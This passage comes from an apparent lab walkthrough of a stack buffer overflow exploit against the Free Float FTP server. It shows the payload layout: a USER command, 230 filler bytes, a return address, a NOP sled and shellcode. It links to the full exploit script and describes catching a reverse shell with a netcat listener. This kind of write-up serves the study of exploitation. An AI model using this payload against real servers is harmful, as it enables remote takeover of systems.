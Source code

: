 Ammedn our script with the payload</br>
We need to add padding of "/x90" character between our jump command and shell code, without this there is a chance that the attack won't succeed.</br>
If we have limited space, we can limit the padding to 8 or 16 (play around and figure out the padding).</br>
So our final Payload format will be </br>

	payload = b"USER "+b"A"*230 + b"\xfb\x41\xbd\x7c" +b"\x90"*20 + buf
 	USER arguemt to the server
  	230 characters of A (till the offset value)
   	\xfb\x41\xbd\x7c - our pointer 
	buf - Payload
The full python script is <a href = "https://raw.githubusercontent.com/V4g4b0nd/Projects/main/Bufffer%20Overflow%20(Free%20Float%20FTP)/exploit.py">here</a></br>
Let's setup  a netcat lister on port 1234 and run our script</br>
Note - Close Immunity and run the FTP server as an application in the server</br>

**We got a reverse shell back**</br>
<img src = "https://imgur.com/EHGvYMd.png" height="40%" width="40%"></br>
<img src = "https://imgur.com/ackivsx.png" height="40%" width="40%"></br>


  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  



<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
